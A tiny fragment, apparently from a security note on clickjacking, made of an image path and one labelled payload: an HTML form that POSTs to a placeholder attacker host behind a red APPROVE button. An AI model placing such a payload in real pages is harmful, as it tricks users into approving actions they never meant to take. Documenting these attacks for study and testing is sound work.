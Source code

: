 CLick jacking.
Payload: <form method="POST" action="https://$<your-dns>"><input class="red" type="submit" name="action" value="APPROVE">
